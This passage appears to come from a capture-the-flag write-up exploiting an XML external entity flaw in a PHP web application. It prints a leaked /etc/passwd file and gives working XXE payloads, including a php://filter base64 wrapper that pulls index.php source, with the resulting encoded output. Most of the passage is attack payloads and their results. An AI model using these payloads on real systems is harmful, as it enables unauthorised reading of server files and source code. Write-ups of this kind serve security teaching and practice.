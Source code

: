 We get the file

```xml
<?xml version="1.0"?>
<data><error>You do not have access to view user id: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
admin:x:1000:1000::/home/admin:/bin/rbash
</error></data>
```

Let's try to read the index.php files

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "index.php"> ]>
<data>
	<id>&xxe;</id>
</data>
```

Tried using DTD and HTTP but still did not work. Trying out php filters 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<data>
	<id>&xxe;</id>
</data>
```

We get base64 encoded file

```bash
<?xml version="1.0"?>
<data><error>You do not have access to view user id: PD9waHAKaW5jbHVkZV9vbmNlKCcuLi9BdXRvbG9hZC5waHAnKTsKaW5jbHVkZV9vbmNlKCcuLi9Sb3V0ZS5waHAnKTsKaW5jbHVkZV9vbmNlKCcuLi9PdXRwdXQucGhwJyk7CmluY2x1ZGVfb25jZSgnLi4vVmlldy5waHAnKTsKClJvdXRlOjpsb2FkKCk7ClJvdXRlOjpydW4oKTs=</error></data>
```
